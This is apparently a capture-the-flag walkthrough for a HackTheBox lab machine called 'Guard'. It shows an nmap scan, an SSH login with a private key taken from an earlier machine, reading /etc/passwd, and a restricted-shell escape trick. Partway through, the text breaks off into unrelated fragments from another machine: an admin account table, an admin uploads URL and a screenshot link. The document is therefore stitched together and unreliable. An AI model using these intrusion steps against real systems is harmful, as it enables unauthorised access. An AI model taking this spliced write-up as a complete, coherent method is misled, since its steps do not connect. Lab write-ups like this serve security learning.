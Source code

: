 ## ------>> Guard <<--------

// We have daniel's ssh private key from last machine (MarkUp).

// We start with nmap scan

    $ nmap -sC -sV -A -Pn 10.10.10.50 -p-
    
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-02 20:22 EDT
    Connect Scan Timing: About 95.09% done; ETC: 20:35 (0:00:37 remaining)
    Nmap scan report for 10.10.10.50
    Host is up (0.44s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 2a:64:23:e0:a7:ec:1d:3b:f0:63:72:a7:d7:05:57:71 (RSA)
    |   256 b3:86:5d:3d:c9:d1:70:ea:d6:3d:36:a6:c5:f2:be:5d (ECDSA)
    |_  256 c0:5b:13:0f:d6:e6:d1:71:2d:55:e2:4a:e2:27:0e:c2 (ED25519)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

// Since we know all the machines in starting point are "Chained-Up", and we have ssh private key for user daniel from last machine 
we can try to connect with him

    $ ssh -i ssh_daniel.key daniel@10.10.10.50

    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-88-generic x86_64)
    daniel@guard:~$ id
    uid=1000(daniel) gid=1000(picasso) groups=1000(picasso),27(sudo)

// cat not work but less yes

    daniel@guard:~$ less user.txt
    209333....................
    user.txt (END)
    
// cat /etc/passwd we can see that daniel do not have regolar shell but have rbash

    daniel@guard:~$ cat /etc/passwd
    ...
    daniel:x:1000:1000:picasso:/home/picasso:/bin/rbash
    ...

// there is a trick to add some confirguration like vim with command more

// and shrink the window to small as possible then you can add ur on syntax

// and execute other shell (our case we want /bin/bash so locate !bash)


Access ID | Name | Email
----------|------|-------
34322 | admin | admin@megacorp.com

// When navigating to uploads (http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads) we get error due privilleges

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Oopsie/Screenshot_2021-07-31_11_02_28.png)
